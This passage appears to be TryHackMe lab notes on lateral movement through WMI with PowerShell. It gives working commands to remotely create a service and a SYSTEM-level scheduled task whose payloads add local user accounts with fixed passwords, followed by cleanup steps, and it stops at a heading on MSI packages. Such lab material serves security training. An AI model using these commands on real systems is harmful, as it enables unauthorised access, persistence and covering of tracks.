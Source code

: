 We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Scheduled Tasks Remotely with WMI

* **Ports**:
	* 135/TCP, 49152-65535/TCP (DCERPC)
	* 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
	
* **Required Group Memberships**: Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

```
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### Installing MSI packages through WMI
